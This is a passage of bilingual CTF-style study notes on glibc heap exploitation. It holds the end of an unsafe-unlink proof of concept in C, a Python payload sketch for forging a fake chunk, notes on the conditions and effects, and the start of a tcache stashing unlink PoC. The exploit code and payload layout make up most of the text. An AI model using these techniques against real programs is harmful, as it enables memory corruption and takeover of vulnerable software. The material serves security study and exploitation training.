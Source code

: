 ```c
	printf("You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344\n\n");
	free(chunk1_ptr);

	printf("At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.\n");
	char victim_string[8];
	strcpy(victim_string,"Hello!~");
	chunk0_ptr[3] = (uint64_t) victim_string;

	printf("chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.\n");
	printf("Original value: %s\n",victim_string);
	chunk0_ptr[0] = 0x4141414142424242LL;
	printf("New Value: %s\n",victim_string);

	// sanity check
	assert(*(long *)victim_string == 0x4141414142424242L);
}
```

**核心思路:**
```python
# chunk 0 ptr store in &ptr

malloc(0x420) # not in fastbin or tcache
malloc(0x420) 
edit(0, p64(0)+p64(fake_size)+p64(&ptr-0x18)+p64(&ptr-0x10)+p64(0)*k + p64(fake_prev_size)+p64(size)) # fakesize = 0x420-0x10
# need fake_prev_size = prev_size-0x10, sive.PREV_INUSE = 0
```

**限制:**
- overflow ,可以修改prev_inuse触发fake chunk  unlink and  consolidate 
- 主要适用于可以知道堆指针存储基址的情况，可以控制堆管理机构

**效果:**
- 可以将ptr处地址改写为&ptr-8



##  tcache stashing unlink 

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    setbuf(stdout, NULL);

    printf("This file demonstrates the stashing unlink attack on tcache.\n\n");
    printf("This poc has been tested on both glibc-2.27, glibc-2.29 and glibc-2.31.\n\n");
    printf("This technique can be used when you are able to overwrite the victim->bk pointer. Besides, it's necessary to alloc a chunk with calloc at least once. Last not least, we need a writable address to bypass check in glibc\n\n");
    printf("The mechanism of putting smallbin into tcache in glibc gives us a chance to launch the attack.\n\n");
    printf("This technique allows us to write a libc addr to wherever we want and create a fake chunk wherever we need. In this case we'll create the chunk on the stack.\n\n");

```